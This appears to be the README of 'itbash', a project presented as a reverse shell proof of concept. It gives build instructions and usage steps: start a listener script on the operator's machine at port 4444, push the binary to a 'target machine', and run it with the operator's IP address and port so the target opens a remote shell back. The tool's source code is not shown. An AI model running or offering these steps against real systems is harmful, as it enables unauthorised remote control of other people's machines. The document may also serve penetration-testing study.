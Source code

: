 # itbash
Reverse Shell POC (no pipe)

-------

BUILD
=====

Use make to compile the program:
```make```

------

USAGE
=====

On your machine, run the script with the port as first argument:
```bash
./server.sh 4444
```

On the target machine, push itbash. Run the program with address IP/hostname as the first argument and port as second.
```bash
./itbash 192.168.1.11 4444
```

By default *itbash* use localhost and the port 4444.
